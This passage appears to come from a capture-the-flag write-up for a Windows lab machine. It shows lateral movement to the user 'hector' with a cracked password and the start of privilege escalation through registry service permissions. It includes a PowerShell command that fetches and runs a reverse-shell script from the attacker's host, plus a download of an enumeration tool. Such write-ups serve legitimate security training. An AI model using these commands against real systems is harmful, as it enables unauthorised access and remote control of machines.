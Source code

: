 There is another user on the box called _hector_ and we cracked a password for this user earlier.
Lets test if the password can be used to escalate privileges to this user:
```
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlain -Force

$cred = New-Object System.Management.Automation.PSCredential('.\hector', $pass)

Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/revshell_9002.ps1') }
```

The listener on my IP and port 9002 starts a reverse shell connection as _hector_.

### Privilege Escalation to Administrator

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script**:
```
wget http://10.10.14.9/winPEAS.exe' -o winPEAS.exe

.\winPEAS.exe
```

The PowerShell history can be found in _C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt_ and it contains the last ran commands from the user:
```
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

The first command lists all the running services on the box.

The second command shows the registry key _"HKLM:\SYSTEM\CurrentControlSet"_ which contains a string in [SDDL format](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) that shows the permissions of the user _hector_.

Translating the **SDDL** to make it humanly readable:
```
acl = get-acl HKLM:\SYSTEM\CurrentControlSet\Services

ConvertFrom-SddlString -Sddl $acl.Sddl -type RegistryRights | Foreach-Object {$_.DiscretionaryAcl}
```
```
NT AUTHORITY\Authenticated Users: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, QueryValues, ReadPermissions)

NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

CONTROL\Hector: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, QueryValues, ReadPermissions)
```
